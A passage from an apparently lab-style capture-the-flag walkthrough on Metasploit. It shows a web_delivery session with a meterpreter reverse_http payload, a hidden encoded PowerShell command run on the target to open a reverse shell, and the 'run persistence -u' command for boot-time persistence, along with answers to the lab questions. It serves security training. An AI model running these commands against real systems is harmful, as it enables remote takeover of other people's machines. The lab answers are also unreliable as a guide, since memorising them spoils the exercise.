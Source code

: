Let's set the payload and run it as a job:

~~~
msf6 exploit(multi/script/web_delivery) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/script/web_delivery) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started HTTP reverse handler on http://10.9.1.123:4321
[*] Using URL: http://0.0.0.0:8080/HzIONiF3JP
[*] Local IP: http://10.0.2.15:8080/HzIONiF3JP
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQ [REDACTED] DMASgBQACcAKQApADsA
~~~

Now copy this payload.

No answer needed

### 4.5 - Return to the terminal we spawned with our exploit. In this terminal, paste the command output by Metasploit after the job was launched. In this case, I've found it particularly helpful to host a simple python web server (python3 -m http.server) and host the command in a text file as copy and paste between the machines won't always work. Once you've run this command, return to our attacker machine and note that our reverse shell has spawned. 

Run the the paylaod in the target machine's cmd and go back to your machine and we can see that a reverse shell has spawned.

No answer needed

### 4.6 - Last but certainly not least, let's look at persistence mechanisms via Metasploit. What command can we run in our meterpreter console to setup persistence which automatically starts when the system boots? Don't include anything beyond the base command and the option for boot startup.

Answer: `run persistence -u`

### 4.7 - Run this command now with options that allow it to connect back to your host machine should the system reboot. Note, you'll need to create a listener via the handler exploit to allow for this remote connection in actual practice. Congrats, you've now gain full control over the remote host and have established persistence for further operations!

No answer needed

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )